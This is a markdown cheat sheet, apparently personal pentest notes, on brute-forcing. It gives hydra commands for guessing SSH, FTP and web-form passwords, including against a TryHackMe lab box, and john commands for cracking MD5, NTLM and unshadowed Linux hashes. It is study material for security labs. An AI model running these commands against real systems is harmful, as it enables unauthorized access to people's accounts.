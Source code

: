 # Brute-Forcing

## Table of Contents

- [Introduction](#introduction)
- [Online Brute-Forcing](#online-brute-forcing)
  - [Online brute-forcing with hydra](#with-hydra)
    - [SSH](#ssh)
    - [FTP](#ftp)
    - SMB
    - [Web App Login Form](#web-app-login-form)
  - [Protection against online brute-forcing](#protecting-online-brute-forcing)
- [Offline Brute-Forcing](#offline-brute-forcing)
  - [Hashes](#hashes)
  - Linux passwords
  - Windows passwords
- [Resources](#resources)

## Introduction

Brute-forcing can be done in different methods, with different tools, depending on the situation and the needs.

## Online Brute-Forcing

Brute-Force online services. With online services, we mean attacking the server in `live mode`. Feeding him with some passwords until he accepts some password. You probably need to know some username, some user account to start with. If not, go back to the Information Gathering process. Or you can also try to bruteforce the usernames, but this will take longer time.

You need to keep in mind if the service on the server is protected with something like `fail2ban`. If protected, this bruteforce attack will be detected very soon and the ip of your machines will be banned.

### Online brute-forcing with hydra

### SSH

_Note: Remove the `-vV`, to not have so much verbose information. Best only to be done if you know for sure your attack will work._

Brute forcing on 1 know username, so only brute forcing the passwords:

```commandline
hydra -t 16 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt -vV $IP ssh
```

Brute forcing with a know list of users, and know list of passwords:

```commandline
hydra -t 16 -L usernames.txt -P locks.txt -vV $IP ssh
```

Note: Both, `usernames.txt` and `locks.txt` have one entry per line.


### FTP

This is the same commands as brute forcing an `SSH` server. We can also easily bruteforce usernames like show in the `SSH` example.

```commandline
hydra -t 16 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt -vV $IP ftp
```

### SMB

...

### Web App Login Form

For this, you probably first want to make use of `Burp Suite` tool. To figure out how the username and password are transmitted to the web server. And also to see what error message you get if the credentials aren't accepted. You also need to know a username.

Maybe a good source could be this: https://github.com/dvanmosselbeen/TryHackMe_writeups/tree/main/hydra#post-web-form

```commandline
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V
```

Another example with cookie. You can try this out in the [THM hackpark](https://tryhackme.com/room/hackpark):

```commandline
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.249.121 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=EOeL86tosog9kLIpjou2A25jQ38AIn6MT%2FrphfVE8xj5okNiXtL1pnEDfnakIBLFROGazrBhvHFpoO%2Bk4DKFvT6UxuAVZ2S7bRhREfGr83PkPyJN14eUyXnu9chWl28QCoa95V3%2Fz09EQumZOdQncH91BV9SxBtovynGlyT9pHQPvcFH&__EVENTVALIDATION=X5U5Dd%2FHvaK8f%2F3CzSs7CxsRjLmmIv5vXbvSJX%2BClLwZbzmMW5QZ%2BBKkVlFiJSfhgWWu0JiZ%2BW%2BX781aAoZewE6yMgFyaQOR5wZCsxY6Sy8eHx0TZqrLyHHRcrOOrbvLI8a5MV43urbnt5IFHYicx3vlBLDU60FfuBba1NYalcz%2FqDWb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv
```

**Note:** That `^USER^` and `^PASS^` has been set in this cookie this time.

### Protection against online brute-forcing

You can protect services with `fail2ban`.

## Offline Brute-Forcing

Brute-force offline services.

See also my other detailed file documents:

- [John](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/Security/john-the-ripper.md)

### Hashes

```commandline
# md5 hash
echo "482c811da5d5b4bc6d497ffa98491e38" > hashfile.txt
# Identify the hash
hashid -j hashfile.txt
# Crack the hash
john --format=<format> --wordlist=/usr/share/wordlists/rockyou.txt hashfile.txt
```

For example:

```commandline
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashfile.txt
```

### Linux passwords

First need to `unshadow`, for this we need the `/etc/passwd` and the `/etc/shadow` files.

```commandline
unshadow local_passwd local_shadow > unshadowed.txt
```

Then crack the unshadowed file:

```commandline
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt
```

See also the documents:

- [Exploiting writeable etc passwd](exploiting-writeable-etc-passwd.md)See also the documents:

- [Exploiting writeable etc passwd](exploiting-writeable-etc-passwd.md)

### Windows passwords

```commandline
echo 5460C85BD858A11475115D2DD3A82333 > ntlm.txt
hashid -j ntlm.txt
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlm.txt
```

See also in metasploit the `dumphash`.

## Resources

My other documents:

- [Hash Types](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/Security/hash_types.md)
- [John The Ripper](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/Security/john-the-ripper.md)
- [Hydra](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/Security/hydra.md)
- [Word list](word-lists)
- [Wi-Fi Hacking](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/Security/Wi-Fi%20Hacking.md)

